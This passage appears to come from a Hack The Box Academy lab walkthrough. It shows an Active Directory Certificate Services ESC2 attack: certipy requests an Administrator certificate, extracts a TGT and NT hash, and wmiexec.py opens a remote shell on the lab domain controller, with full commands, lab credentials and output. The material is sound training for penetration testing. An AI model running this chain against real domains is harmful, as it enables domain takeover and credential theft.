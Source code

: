 ```shell
certipy req -u blwasp@lab.local -p Password123! -dc-ip STMIP -ca lab-LAB-DC-CA -template ESC2 -upn Administrator
```

```shell-session
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -ca lab-LAB-DC-CA -template ESC2 -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 65
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx -domain lab.local
```

```shell-session
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
lab\administrator
```
